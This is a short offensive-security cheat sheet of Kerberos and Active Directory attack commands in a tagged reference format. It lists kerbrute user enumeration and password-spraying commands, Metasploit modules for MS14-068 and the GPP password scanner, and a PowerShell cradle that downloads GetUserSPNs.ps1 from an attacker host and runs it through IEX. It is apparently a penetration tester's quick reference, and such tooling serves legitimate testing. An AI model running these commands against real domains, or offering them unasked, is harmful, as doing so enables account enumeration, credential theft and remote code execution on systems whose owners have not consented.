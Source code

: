 # kerberos

% kerberos

## Kerbrute usersenum
#plateform/linux #target/remote #port/88 #protocol/kerberos #cat/ATTACK/BRUTEFORCE-SPRAY 
```
kerbrute userenum --dc <dc_ip> <users_wordlist>
```

## Kerbrute password spraying user=pass
#plateform/linux #target/remote #port/88 #protocol/kerberos #cat/ATTACK/BRUTEFORCE-SPRAY 
```
kerbrute passwordspray --dc <dc_ip> -d <domain> <users_wordlist> --user-as-pass
```

## Kerbrute password spraying
#plateform/linux #target/remote #port/88 #protocol/kerberos #cat/ATTACK/BRUTEFORCE-SPRAY 
```
kerbrute passwordspray --dc <dc_ip> -d <domain> <users_wordlist> <password>
```

## kerberos ms14-068
#plateform/linux #target/remote #port/88 #protocol/kerberos #cat/ATTACK/EXPLOIT 
```
msfconsole -x "use auxiliary/admin/kerberos/ms14_068_kerberos_checksum"
```

## exploit gpp - group policy preference (ms14-025)
#plateform/linux #target/remote #port/88 #protocol/kerberos #cat/RECON 
```
msfconsole -x "use scanner/smb/smb_enum_gpp"
```

## powershell - get user SPN
#plateform/windows #target/remote #port/88 #protocol/kerberos #cat/RECON 

https://github.com/nidem/kerberoast
```powershell
(new-object system.net.webclient).downloadstring('http://<lhost>/GetUserSPNs.ps1') | IEX
```